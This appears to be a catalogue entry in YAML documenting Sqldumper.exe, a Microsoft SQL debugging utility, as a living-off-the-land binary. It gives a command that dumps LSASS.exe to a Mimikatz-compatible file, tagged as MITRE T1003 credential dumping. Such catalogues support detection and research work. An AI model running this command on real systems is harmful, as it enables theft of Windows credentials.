 ```yaml
---
Name: Sqldumper.exe
Description: Debugging utility included with Microsoft SQL.
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: sqldumper.exe 464 0 0x0110
    Description: Dump process by PID and create a dump file (Appears to create a dump file called SQLDmprXXXX.mdmp).
    Usecase: Dump process using PID.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003
    MitreLink: https://attack.mitre.org/wiki/Technique/T1003
    OperatingSystem: Windows
  - Command: sqldumper.exe 540 0 0x01100:40
    Description: 0x01100:40 flag will create a Mimikatz compatible dump file.
    Usecase: Dump LSASS.exe to Mimikatz compatible dump using PID.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003
    MitreLink: https://attack.mitre.org/wiki/Technique/T1003
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files\Microsoft SQL Server\90\Shared\SQLDumper.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\vfs\ProgramFilesX86\Microsoft Analysis\AS OLEDB\140\SQLDumper.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/countuponsec/status/910969424215232518
  - Link: https://twitter.com/countuponsec/status/910977826853068800
  - Link: https://support.microsoft.com/en-us/help/917825/how-to-use-the-sqldumper-exe-utility-to-generate-a-dump-file-in-sql-se
Acknowledgement:
  - Person: Luis Rocha
    Handle: "@countuponsec"
---
```

